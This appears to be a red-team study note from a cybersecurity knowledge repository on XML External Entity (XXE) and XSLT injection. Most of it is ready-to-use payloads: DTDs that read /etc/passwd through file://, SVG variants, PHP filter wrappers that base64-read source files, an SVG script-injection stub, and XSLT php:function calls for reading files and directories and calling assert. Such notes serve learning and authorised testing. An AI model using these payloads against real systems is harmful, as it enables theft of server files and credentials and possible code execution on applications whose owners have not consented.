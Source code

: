 # XML External Entity (XXE)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

<div class="row row-cols-lg-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Access and steal files <small>(passwd, id_rsa, etc.)</small>
* Perform a DDoS attack
* Perform a [SSRF attack](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md)
* Perform a [XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)

There are two kind of XXE

* **In-band XXE**: same channel to attack and fetch results
* **Out-band/Blind XXE**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the content of `/etc/passwd`. The parsed XML will have the content of the file inside the root element.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc SYSTEM 'file:///etc/passwd']>
<root>&poc;</root>
```

📚 As a reminder, [SVG](https://en.wikipedia.org/wiki/SVG) are XML files too.
</div></div>

<hr class="sep-both">

## XXE XML Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

We can use the `file://` protocol as shown in the poc.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd']>
<root>&xxe;</root>
```
</div><div>
</div></div>

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

We can use the `file://` protocol as shown in the poc. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>

<hr class="sep-both">

## XSLT Transformations

[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML. If the XSLT parser is vulnerable, we may be able to execute some code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
</body>
</html>
```
</div><div>

You may then inject something inside the body:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```
</div></div>